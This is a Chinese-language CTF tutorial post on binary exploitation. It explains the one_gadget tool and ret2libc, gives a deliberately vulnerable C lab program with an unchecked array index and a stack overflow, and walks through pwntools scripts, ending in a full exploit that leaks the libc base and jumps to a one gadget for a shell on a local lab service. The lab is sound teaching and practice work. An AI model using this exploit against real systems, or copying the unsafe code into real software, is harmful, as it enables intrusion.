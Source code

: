 ```yaml
---
title: "Day14－Other ret2libc(one gadgets)"
date: 2024-09-14
draft: false
tags: ["iron-man-2024", "pwn", "binary-exploitation"]
categories: ["security-research"]
author: "YJK"
showToc: true
TocOpen: false
---
```



## [Lab 網址](https://github.com/YJK0805/PWN-CTF-note/)


## 前言

昨天的內容利用了 `libc` 進行攻擊，不過實際上我們使用的 gadgets 長度既不算長也不算短。而且在之前的題目中，我們常常隨意填充 `rbp`，那麼 `rbp` 真的沒有用嗎？事實上，它是有作用的。像是 [one gadget](https://github.com/david942j/one_gadget) 這個工具，就會使用到 `rbp`，而且它能使 gadgets 的長度最短，因為它只需要控制 `rbp` 和 8 個 byte 的 return address 即可。

## [One Gadget](https://github.com/david942j/one_gadget)

在函式庫中，有些函式會呼叫 `execve('/bin/sh', argv, envp)`，簡單來說就是可以拿來開啟 shell。像是 `system(cmd)` 可能會執行 `fork() + execve('/bin/sh', ["sh","-c",cmd], environ)`。因此，如果跳到 `system` 的某個中段，最終可能會執行 `execve('/bin/sh', argv, environ)`。

不過，雖然這樣說，直接跳過去不一定會成功，但通常有很多個 one gadget，所以多試幾個總會有成功的可能。如果你想進一步了解工具的運作方式，或者想手動尋找 one gadget，建議參考 david942j 在 HITCON CMT 2017 的議程 [david942j - 一發入魂 One Gadget RCE](https://youtu.be/L9maBmiJGAc?si=1eEG5bjKVoFp37gv)。

## 使用

使用以下指令安裝 one gadget 工具：

```bash
gem install one_gadget
```
安裝完成後，只需要針對 libc 找出可用的 one gadget，指令如下：

```sh=
one_gadget <libc file>
```

![image](/images/iron2024/day14_image1.png)

可以看到工具會列出各個 gadget 的限制條件，因此需要滿足這些條件，像是 `rbp` 的值或其他 register 的位置。通常我不會過於在意這些限制條件，只要 `rbp` 符合條件即可，比如符合 `rbp-0x78`、`rbp-0x48` 或 `rbp-0x50` 是可寫的。

我的習慣是使用 `gdb` 將程式運行起來，然後通過 `vmmap` 查看哪些區域是可寫的。找到沒有寫入資料的區段後，將 `rbp` 設置為那個區段的位址。接著，如果失敗，就換另一個 gadget 繼續測試。

## Lab

查看以下原始碼：

```c=
#include<stdio.h>
#include<stdlib.h>

int main(){
    setvbuf(stdout, 0, 2, 0);
    setvbuf(stdin, 0, 2, 0);
    setvbuf(stderr, 0, 2, 0);
    long long num[10] = {0};
    while(1){
        puts("1. Edit number");
        puts("2. Show number");
        puts("3. Exit");
        printf(">> ");
        int choice;
        scanf("%d", &choice);
        switch(choice){
            case 1:
                printf("Index: ");
                int idx;
                scanf("%d", &idx);
                printf("Number: ");
                scanf("%lld", &num[idx]);
                break;
            case 2:
                printf("Index: ");
                int idx2;
                scanf("%d", &idx2);
                printf("Number: %lld\n", num[idx2]);
                break;
            case 3:
                break;
            default:
                puts("Invalid choice");
                break;
        }
        if(choice == 3){
            break;
        }
    }
    char message[0x20];
    printf("Leave a message: ");
    read(0, message, 0x80);
    return 0;
}
```

使用以下指令進行編譯：

```sh=
gcc src/ret2libc_adv.c -o ./ret2libc_adv/share/ret2libc_adv -fno-stack-protector
```

## writeup

相比昨天的 Lab，這次的 `read` 可以 overflow 的部分變小了，但其餘部分相同，仍然可以通過越界讀取來 leak `libc base`。查看反組譯碼會發現能 overflow 的位置只有到 `rbp` 和 return address，因此非常適合使用 one gadget。

![image](/images/iron2024/day14_image2.png)

使用 one gadget 找到的 gadget 如下：

![image](/images/iron2024/day14_image3.png)

接下來，我們寫一個簡單的 script 來確認條件，看看能使用哪個 gadget。在測試之前，記得依照昨天的方式換 `libc`，指令如下：

```sh=
patchelf --replace-needed libc.so.6 ./libc.so.6 --set-interpreter ./ld-linux-x86-64.so.2 ./ret2libc_adv
```

然後寫測試的 script 並掛上 `gdb`：

```py=
from pwn import *

r = process('./ret2libc_adv')
context.terminal = ['tmux', 'splitw', '-h']
gdb.attach(r)
r.sendlineafter('>> ', '2')
r.sendlineafter('Index: ', '11')
number = int(r.recvline().strip().split(b': ')[1])
libc_base = number - 0x29d90
log.info(f'Libc: {hex(libc_base)}')
payload = b'A' * 0x70
r.sendlineafter('>> ', '3')
r.sendlineafter('Leave a message: ', payload)

r.interactive()
```

執行後，在 return address 觀察 `register` 的狀態以及應該填充的 `rbp` 值：

![image](/images/iron2024/day14_image4.png)

既然我們已經有了 `libc base address`，就可以查看 `libc` 的可寫段：

![image](/images/iron2024/day14_image5.png)

我通常習慣從最尾端找起，使用指令 `x/30gx 0x7f83a8e81000-0x78`，發現大多區域都是可寫的。

![image](/images/iron2024/day14_image6.png)

回到剛才找到的 one gadget，最後一個 gadget 的 offset 是 `0xebd43`，看起來條件符合。我們將 `rbp` 填入之前找到的可寫區段（記得加上 offset 和 `libc address`）。

![image](/images/iron2024/day14_image7.png)

完整 exploit：

```py=
from pwn import *

# r = process('./ret2libc_adv')
r = remote('127.0.0.1', 10006)
r.sendlineafter('>> ', '2')
r.sendlineafter('Index: ', '11')
number = int(r.recvline().strip().split(b': ')[1])
libc_base = number - 0x29d90
log.info(f'Libc: {hex(libc_base)}')
rbp = libc_base + 0x21c000
one_gadget = libc_base + 0xebd43
payload = b'A' * 0x70 + p64(rbp) + p64(one_gadget)
r.sendlineafter('>> ', '3')
r.sendlineafter('Leave a message: ', payload)
r.interactive()
```

solved！！

![image](/images/iron2024/day14_image8.png)